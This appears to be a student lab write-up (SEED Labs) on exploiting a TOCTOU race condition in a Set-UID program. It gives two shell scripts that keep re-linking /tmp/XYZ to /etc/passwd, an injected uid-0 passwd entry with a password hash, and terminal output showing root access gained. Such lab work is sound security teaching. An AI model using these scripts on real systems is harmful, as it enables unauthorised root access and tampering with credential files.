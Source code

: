 ### Task 1: Exploit the Race Condition Vulnerabilities
You need to exploit the race condition vulnerability in the above Set-UID program. More specifically, you need to achieve the following:
- Overwrite any file that belongs to root.
- Gain root privileges; namely, you should be able to do anything that root can do.

Our attack script:
```
#!/bin/sh
# attack.sh
race()
{
	old=`ls -l /etc/passwd`
	old=`ls -l /etc/passwd`
	while [ "$old"="$new" ]
	do
		rm -f /tmp/XYZ
		>/tmp/XYZ
		ln -sf /etc/passwd /tmp/XYZ
		new=`ls -l /etc/passwd`
	done
}

race
echo "Stop... The passwd has been changed!"
RACE_PID=$!
kill $RACE_PID
```
Loop execution script:
```
#!/bin/sh
# loop.sh
race()
{
	while true
	do
		./vulp < attack_input
	done
}

race
RACE_PID=$!
kill $RACE_PID
```
Content in attack_input:
```
smith:ttXydORJt50wQ:0:0::/home:/bin/sh
```
Now, let's attack it.
```
seed@ubuntu:~$ ls -al vulp* attack* loop.sh 
-rwxrwxrwx 1 seed seed   39 Aug 11 23:39 attack_input
-rwxrwxrwx 1 seed seed  268 Aug 11 23:02 attack.sh
-rwxrwxrwx 1 seed seed  102 Aug 11 23:44 loop.sh
-rws------ 1 root root 7403 Aug 11 23:22 vulp
-rwxrw-rw- 1 seed seed  301 Aug 11 23:42 vulp.c
seed@ubuntu:~$ ./loop.sh ; ./attack.sh
Stop... The passwd has been changed!
seed@ubuntu:~$ cat /etc/passwd | grep smith
smith:ttXydORJt50wQ:0:0::/home:/bin/sh
seed@ubuntu:~$ su smith 
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
```
